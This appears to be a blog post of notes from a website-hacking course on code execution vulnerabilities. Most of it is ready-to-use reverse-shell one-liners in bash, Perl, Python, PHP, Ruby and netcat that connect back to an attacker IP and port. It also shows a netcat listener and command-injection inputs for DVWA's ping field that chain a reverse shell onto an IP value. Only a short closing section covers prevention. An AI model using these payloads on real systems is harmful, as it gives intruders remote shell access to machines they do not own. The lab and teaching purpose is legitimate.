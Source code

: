 ```yaml
---
title: What is Code Execution Vulnerabilities
date: 2017-10-31 12:00:00
tags:
categories: Software
thumbnail: https://images.unsplash.com/photo-1522040806052-b0aa2b039f00?ixlib=rb-1.2.1&q=80&fm=jpg&crop=entropy&cs=tinysrgb&w=1080&fit=max&ixid=eyJhcHBfaWQiOjF9
---
```


<!-- more -->

https://www.udemy.com/learn-website-hacking-penetration-testing-from-scratch/learn/v4/

## Ch 6 : What is Code Execution Vulnerabilities ?
> The 3rd meeting. 
> Lecturer: Tony
* Allows an hacker to execut OS commands.
* Windows or Linux commands.
* Can be get used to reverse shell.
* Or upload any file using wget command.
* Code execution commands attached in the resources.

### Shell examples with different env

> The following examples assums the hacker IP is 10.20.14 and use port 8080 for the connection.

> Therefore in all f these cases you need to listen for port 8080 using the foolowing command


`Kali linux` Listening on 8080 port
```
nc -vv -l -p 8080
```


---
#### BASH
```
bash -i >& /dev/tcp/10.20.14.208/8080 0>&1
```

#### PERL
```
perl -e 'use Socket;$i="10.20.14.208";$p=8080;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

#### Python
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.20.14.208",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

#### PHP
```
php -r '$sock=fsockopen("10.20.14.208",8080);exec("/bin/sh -i <&3 >&3 2>&3");'
```

#### Ruby
```
ruby -rsocket -e'f=TCPSocket.open("10.20.14.208",8080).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

#### Netcat
```
nc -e /bin/sh 10.20.14 8080
```
---
### Try yourself
> In this example. we are going to use the Netcat.
> 
Inject the code via input into `Target`.
```
10.20.14.208; pwd
10.20.14.208 | nc -e /bin/sh 10.20.14.208 8080
```

> tips. turn the DVWA security level to `low`
> 

#### Low Security Level
> Simply using `;` to connect the second command. `e.g.` `ls; pwd`.
#### Med Security Level
> It used to be work with `ls ; pwd`. But right now it may prevent the inject by using detect the `;` character. So we change another unix feature called `pipe` with symbol `|`.
#### High Security Level
> View the source code. It check the ip pattern by seperating with `.` into arrarys and allowed only numbers.
### How to prevent the code execution vulnerabilities 
1. Dont use dangerous functions. Such as any of OS functions.
2. Filter user input before execution. e.g. the ip input formate should match the pattern xxx.xxx.xxx.xxx.